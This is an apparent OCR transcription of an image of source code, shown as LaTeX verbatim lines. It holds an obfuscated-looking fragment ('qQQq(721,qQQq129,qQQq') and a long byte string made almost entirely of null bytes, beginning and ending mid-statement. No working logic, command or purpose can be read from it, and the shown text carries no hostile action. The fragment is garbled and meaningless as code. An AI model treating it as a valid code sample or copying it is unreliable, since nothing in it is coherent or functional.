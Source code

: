 \verb|),|\newline
\verb|qQQq(721,qQQq129,qQQq|\newline
\verb|"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\|\newline
\verb|\\x00\x00\x00\x00\x00\x00\x00\x00\x02\xd2\x00\x00\x00\x00\x00\x00\|\newline
